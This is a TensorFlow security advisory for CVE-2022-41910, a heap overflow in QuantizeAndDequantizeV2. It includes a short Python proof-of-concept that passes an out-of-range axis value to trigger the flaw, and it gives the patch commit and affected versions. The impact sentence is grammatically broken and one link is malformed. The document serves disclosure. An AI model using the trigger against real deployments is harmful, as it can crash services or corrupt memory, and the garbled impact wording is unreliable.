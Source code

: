 ## TFSA-2022-168: Heap overflow in `QuantizeAndDequantizeV2`

### CVE Number
CVE-2022-41910

### Impact
The function [QuantizeAndDequantizeV2/V3/V4Grad](https://https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/ops/array_ops.cc) an `axis` less than `kint32max`, or its shape inference can have address sanitizer issues.
```python
import tensorflow as tf
@tf.function
def test():
    tf.raw_ops.QuantizeAndDequantizeV2(input=[2.5],
    								   input_min=[1.0],
    								   input_max=[10.0],
    								   signed_input=True,
    								   num_bits=1,
    								   range_given=True,
    								   round_mode='HALF_TO_EVEN',
    								   narrow_range=True,
    								   axis=0x7fffffff)
test()
```

### Patches
We have patched the issue in GitHub commit [7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb](https://github.com/tensorflow/tensorflow/commit/7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported through the OSS VRP program.
